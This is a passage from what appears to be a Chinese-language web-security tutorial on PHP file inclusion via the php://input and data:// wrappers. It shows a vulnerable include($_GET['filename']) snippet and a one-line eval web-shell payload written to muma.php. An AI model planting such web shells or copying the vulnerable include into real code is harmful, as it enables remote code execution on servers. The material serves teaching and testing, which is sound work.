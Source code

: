   这样就可以绕过 `die()` 了
  
  **input**
  
  ```php
  # 注意使用 php://input 的时候必须开启 allow_url_include
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>
  ```
  
  ![img](./assets/include/image10.jpeg)
  
  当我们有写入操作的时候，可以直接写入一句话木马
  
  ```php
  <?php file_put_contents('muma.php', '<?php @eval($_POST[cmd]);');
  ```


### data://

- **条件**：

  - allow_url_fopen：on
  - allow_url_include： on

- **作用**：自 `PHP>=5.2.0` 起，可以使用 `data://` 数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。
